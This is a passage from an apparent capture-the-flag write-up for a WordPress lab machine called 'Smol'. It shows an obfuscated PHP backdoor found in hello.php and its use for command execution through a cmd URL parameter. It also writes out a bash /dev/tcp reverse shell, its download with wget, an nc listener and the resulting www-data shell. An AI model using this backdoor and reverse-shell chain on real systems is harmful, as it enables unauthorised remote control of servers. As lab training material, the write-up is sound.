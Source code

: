 We can find a strange line in the hello.php file on the target machine.

base64 decoded code: ``` if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }``` 

Check online decode https://www.unphp.net/decode/

![unphp.net](unphp.net_decode.png)

We can use php system commands from $URL/wp-admin/index.php?cmd=SYSTEMCOMMANDS


Create reverse shell file:

```
new file: cat "/bin/bash -i >& /dev/tcp/10.14.38.96/9090 0>&1" > revshell
```

Open local webserver:

```
$ goshs -p 9090
INFO   [2025-01-26 00:46:12] Serving HTTP from /THM/Smol 
INFO   [2025-01-26 00:46:36] 10.10.6.178:54808 - [200] - "GET /revshell HTTP/1.1" 
```

Download reverse shell bash file to tmp: wget http://$url/revshell -O /tmp/revshell

http://www.smol.thm/wp-admin/index.php?cmd=wget%20http://10.14.38.96:9090/revshell%20-O%20/tmp/revshell


Open a listener: nc -lvnp 9090

Fire UP revshell

http://www.smol.thm/wp-admin/index.php?cmd=bash%20/tmp/revshell


We are in with user www-data. 

```
www-data@smol:/var/www/wordpress/wp-admin$ pwd; id; sudo -l 
pwd; id; sudo -l 
/var/www/wordpress/wp-admin
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

### Step 4 privesc [1]
